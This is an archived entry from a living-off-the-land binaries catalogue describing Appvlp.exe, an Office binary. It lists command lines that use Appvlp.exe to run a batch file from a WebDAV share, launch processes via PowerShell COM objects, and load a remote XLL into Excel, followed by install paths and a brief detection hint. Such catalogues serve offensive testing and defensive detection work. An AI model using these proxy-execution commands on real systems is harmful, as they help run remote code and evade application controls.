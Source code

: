 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Appvlp.exe

* Functions: Execute

```
AppVLP.exe \\webdav\calc.bat   

AppVLP.exe powershell.exe -c "$e=New-Object -ComObject shell.application;$e.ShellExecute('calc.exe', '', '', 'open', 1)"    

AppVLP.exe powershell.exe -c "$e=New-Object -ComObject excel.application;$e.RegisterXLL('\\webdav\xll_poc.xll')" 
```

Acknowledgements:
* fab - @0rbz_    
* Will - @moo_hax

Code sample:
*

Resources:
* https://github.com/MoooKitty/Code-Execution
* https://twitter.com/moo_hax/status/892388990686347264

Full path:
```
C:\Program Files\Microsoft Office\root\client\appvlp.exe       
C:\Program Files (x86)\Microsoft Office\root\client\appvlp.exe       
```

Notes:
Requires Office.

Detection:
Appvlp.exe spawning other process


 

